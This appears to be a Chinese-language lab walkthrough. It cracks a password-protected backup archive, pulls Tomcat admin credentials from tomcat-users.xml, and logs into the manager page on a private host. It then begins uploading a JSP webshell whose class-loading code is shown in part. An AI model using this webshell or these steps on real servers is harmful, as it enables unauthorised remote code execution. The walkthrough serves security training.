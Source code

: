 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

发现个隐藏文件.backup.zip解压看看内容

```
unzip .backup.zip
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

提示需要编译器，百度后说要用7za

```
7za x .backup.zip
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

需要密码，之前拿到的aqua=H2O应该就是密码了，经过几次手动测试密码为H2O

```
7za x .backup.zip -aoa -pagua=H2O  
ls
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

查看tomcat-users.xml内容找到tomcat管理员帐号密码

```
cat tomcat-users.xml
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

登陆tomcat的管理页面

```
http://10.0.0.117:8080
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

登陆成功，上传webshell

1。准备jsp的webshell，密码为passwd(蚁剑可用)

```
<%!  
    class U extends ClassLoader {  
        U(ClassLoader c) {  
            super(c);  
        }  
        public Class g(byte[] b) {  
            return super.defineClass(b, 0, b.length);  
        }  
    }  
   
    public byte[] base64Decode(String str) throws Exception {  
        try {  
            Class clazz = Class.forName("sun.misc.BASE64Decoder");  
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);  
        } catch (Exception e) {  
            Class clazz = Class.forName("java.util.Base64");  
            Object decoder = clazz.getMethod("getDecoder").invoke(null);  
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);  
        }  
    }  
```